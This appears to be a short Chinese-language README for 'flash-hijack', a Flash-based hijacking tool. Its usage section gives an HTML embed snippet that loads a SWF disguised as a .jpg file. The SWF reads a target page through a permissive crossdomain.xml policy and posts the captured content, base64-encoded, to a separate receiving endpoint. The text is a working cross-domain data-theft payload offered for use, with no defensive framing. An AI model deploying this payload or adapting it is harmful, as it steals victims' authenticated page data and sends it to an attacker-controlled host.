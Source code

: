 # flash-hijack
flash 劫持轮子

使用：
HTML：

&lt;div&gt; 
&lt;embed src=&quot;hijack.jpg?jpg=http://127.0.0.1/1.png&amp;get=http://127.0.0.1/l.php&amp;post=http://127.0.0.1/2.php&quot; width=&quot;970&quot; height=&quot;107&quot; quality=&quot;high&quot; pluginspage=&quot;http://www.macromedia.com/go/getflashplayer&quot; type=&quot;application/x-shockwave-flash&quot; wmode=&quot;transparent&quot;&gt;&lt;/embed&gt; 
&lt;/object&gt; 
&lt;/div&gt;

参数说明:

jpg：域下的图片（为了优先加载crossdomain.xml，否则劫持的接口加载太慢会导致无法劫持）

get：劫持的接口或者页面

post：接收劫持过来的页面为base64传输

文章:https://zhuanlan.zhihu.com/p/67484852
